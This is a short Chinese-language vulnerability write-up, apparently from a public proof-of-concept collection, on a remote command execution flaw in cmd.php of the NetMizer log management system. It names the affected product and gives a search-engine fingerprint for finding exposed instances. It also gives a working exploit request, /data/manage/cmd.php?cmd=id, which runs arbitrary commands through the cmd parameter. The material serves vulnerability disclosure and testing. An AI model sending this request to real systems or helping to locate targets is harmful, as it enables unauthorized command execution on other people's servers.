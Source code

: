 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

# NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## 网络测绘

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](/images/202205191755197.png)

验证POC

```
/data/manage/cmd.php?cmd=id
```

![image-20220519175604237](/images/202205191756275.png)

